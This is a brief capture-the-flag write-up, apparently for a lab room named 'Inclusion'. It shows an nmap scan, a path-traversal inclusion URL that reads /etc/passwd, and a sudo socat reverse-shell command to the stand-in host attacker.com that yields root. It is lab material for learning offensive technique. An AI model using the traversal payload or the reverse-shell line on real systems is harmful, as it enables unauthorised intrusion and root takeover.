

# Inclusion

## Reconnaissance

IP addr 10.10.222.127

## Scanning & Enumeration

* Launch Nmap scan
  
```shell
nmap -A -T4 -oA nmap/all_port 10.10.222.127

```

* LFI Testing
try to exploit LFI
<http://10.10.222.127/article?name=lfiattack>
try include /etc/passwd
<http://10.10.222.127/article?name=../../../../../../etc/passwd>


## Exploitation

* get a ssh shell with our finding
  

* Privilege escalation
  
try sudo -l attack vector


  exploit it to escalate priv [GTFObin](https://gtfobins.github.io/gtfobins/socat/#sudo)

  ```shell
RHOST=attacker.com
RPORT=12345
sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  ```

get the root shell

